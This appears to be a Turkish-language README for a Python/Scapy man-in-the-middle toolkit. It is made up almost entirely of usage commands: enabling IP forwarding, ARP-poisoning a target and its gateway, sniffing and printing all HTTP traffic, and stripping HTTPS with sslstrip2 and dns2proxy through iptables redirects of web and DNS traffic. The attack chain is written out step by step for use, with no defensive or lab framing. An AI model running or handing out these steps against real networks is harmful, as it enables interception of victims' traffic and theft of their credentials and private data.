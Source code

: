 # Simple Mitm Framework

Python3 ile Scapy Kullanarak Yapılmış **Man-In-The-Middle** Yazılımı

## Gerekli Paketlerin kurulması :
```
- pip3 install scapy
- pip3 install scapy_http

OR ( Ya da )

- pip3 install -r requirements.txt
```
## IP Forward 

```
- echo 1 > /proc/sys/net/ipv4/ip_forward
```



# Arp_Poison.py

>- ARP Paketleri Yollayarak **ARP Zehirlemesi** Gerçekleştirir.

## Kullanım :

```
- python3 arp_poison.py -t x.x.x.x -g x.x.x.x
```


# Listener.py

> - ARP Zehirlenmesinden Sonra Tüm **HTTP** paketlerini Yakalar ve Ekrana Yazdırır.

## Kullanım : 
```
- python3 listener.py -i wlan0
```

**Listener.py** yerine Herhangi Bir Ağ Dineleme Yazılımı Kullanabilirsiniz. Örn: **Wireshark**

# HTTPS Atlatmak : 

## Gerekli Uygulamaların İndirilmesi : 

```
git clone https://github.com/byt3bl33d3r/sslstrip2
git clone https://github.com/singe/dns2proxy
```

## IP Table Konfigürasyonu:

**SSLStrip için :**

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
```
**DNS2Proxy için:**
```
iptables -t nat -A PREROUTING -p udp --destination-port 53 -j REDIRECT --to-port 53
```

## Kullanım : 
```
- echo 1 > /proc/sys/net/ipv4/ip_forward

- python3 arp_poison.py -t x.x.x.x -g x.x.x.x

- python3 sslstrip.py

- python3 dns2proxy.py

- python3 listener.py -i wlan0
